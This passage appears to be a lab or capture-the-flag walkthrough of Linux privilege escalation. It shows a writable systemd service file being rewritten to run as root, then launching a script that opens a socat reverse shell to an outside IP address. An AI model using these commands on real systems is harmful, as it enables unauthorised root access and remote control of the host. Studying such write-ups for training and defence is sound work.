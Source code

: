 The `pythonapp.service` file, related to a system service, has incorrect permissions allowing us to modify it.

Let’s take a look at the file:

```
[cmeeks@hetemit ~]$ cat /etc/systemd/system/pythonapp.service
cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Perfect, we can modify this file and escalate to root.

```
[cmeeks@hetemit ~]$ cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT
```

We modified the `ExecStart` and `User` lines, and removed the `WorkingDirectory=` line.

Next, we create the reverse shell file:

```
[cmeeks@hetemit ~]$ cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
socat TCP:192.168.118.8:18000 EXEC:sh
EOT

[cmeeks@hetemit ~]$ chmod +x /home/cmeeks/reverse.sh
```
